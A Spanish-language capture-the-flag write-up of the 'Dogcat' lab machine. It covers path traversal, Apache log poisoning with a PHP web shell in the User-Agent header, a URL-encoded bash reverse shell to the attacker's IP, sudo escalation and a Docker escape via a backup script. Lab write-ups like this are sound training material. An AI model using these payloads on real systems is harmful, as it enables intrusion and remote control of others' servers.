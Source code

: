 ```yaml
---
title: Dogcat
description: Write Up de DogCat de la plataforma tryhackme
published: true
date: 2025-05-07T16:39:06.464Z
tags: 
editor: markdown
dateCreated: 2025-05-06T15:56:05.414Z
---
```


# Dogcat
Bienvenido a la documentación de la máquina Dogcat de la plataforma Hack The Box.
## Reconocimiento
Lo primero que vamos a hacer como siempre es usar nmap para hacer un reconocimiento de los puertos disponibles.

```
nmap -sS -sT -Pn {IP}
```

![Imagen del mapeo de Puertos](/imagenes/dogcat_1.png)

Como podemos observar, tenemos el puerto SSH y un puerto HTTP, vamos a ver que hay en la página web con nuestro navegador favorito.

![Primer vistazo del website](/imagenes/dogcat_2.png)

Parece ser que en el website, podemos decidir que queremos ver, sin embargo podemos observar como la URL se ha modificado y nos pasa un parámetro con el animal que queramos ver...

![Observación de la URL](/imagenes/dogcat_3.png)

Cuando modificamos los inputs, podemos ver una serie de errores, por lo que es posible intentar inyectar código o imágenes maliciosas para ganar acceso

![Errores en la URL](/imagenes/dogcat_4.png)

Si nos fijamos, automáticamente se rellena los parámetros con .php, por lo que se podría intentar hacer una inyección de código.

## Explotación
Vamos a hacer uso de &ext=

¿Qué es "&ext="? Es un parámetro que evita que se añadía .php, al archivo seleccionado, con ello podemos abrir un archivo sin necesidad de que siempre ponga .php, por ejemplo, podemos intentar abrir el /etc/passwd

Por ejemplo, podemos poner dog../../../../../etc/passwd&ext. 

![Forzar extensión](/imagenes/dogcat_5.png)

Y ha funcionado, esto nos da la pista de que podríamos incluso infectar archivos importantes, como access.log de apache2, provocando un log poisoning y con ello el acceso al equipo.


Para ello abriremos nuestro Burpsuite, ya que debemos modificar una serie de cosas. Lo que queremos hacer con Burp Suite es pasar como parámetro en User-Agent (Que se lee en el access.log, de Apache2) <?php system ($_GET['cmd']);?>

Con ello podemos empezar a haz log poisoning dentro del website

![Log Poisoning](/imágenes/dogcat_6.png)

Como resultado obtenemos

![Funciona!](/images/dogcat_7.png)

Ahora vamos a intentar hacer una shell reversa con [Revshells](https://www.revshells.com). En mi caso mi ip es la 10.9.3.114 con el puerto 9000. Sin embargo hay que tener en cuenta que deberemos pasarlo codificado en URL.

Como resultado es el lo siguiente: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.9.3.114%2F9000%200%3E%261%27

![Shell establecida](/imagenes/dogcat_9.png)

Podemos comprobar en la shell que tengamos con el netcat, que tenemos la shell. Vamos a sanear la shell ponemos export TERM=xterm.

## Escalada
Ahora vamos a mirar qué comandos podemos ejecutar como root, para ello hacemos 
``` bash
sudo -l
```

![Escalada de root](/imagenes/dogcat_10.png)

Si nos dirigimos al website de [GTFOBins](https://gtfobins.github.io/gtfobins/env/#shell), podemos ver como hay una forma para obtener root mediante el sudo.


Las flags las tenemos:
- En el propio directorio /var/www/html:
![Primera flag](/imagenes/dogcat_11.png)
- En el directorio de /var/www:
![Segunda flag](/imagenes/dogcat_12.png)
- En el directorio de root:
![Tercera flag](/imagenes/dogcat_13.png)

La última está fuera de docker, debemos tener en cuenta que siempre que estamos en un docker. Se suele crear una carpeta en /opt o /mnt, donde tiene la información. En este caso lo ubicamos en el /opt

![Ir a /opt](/imagenes/dogcat_14.png)

Si miramos la carpeta podemos observar una serie de comandos, donde se hace un tar del contenedor entero.

![Lectura del comando](/imagenes/dogcat_15.png)

Podemos realizar una modificación donde añadimos para que establezca una conexión a nuestro equipo atacante por ejemplo:
![Modificar](/imagenes/dogcat_16.png)
Tras ejecutar el comando deberíamos ser root en la máquina anfitrión también.

Y podremos encontrar la última flag ahí.
![](/imagenes/dogcat_16.png)

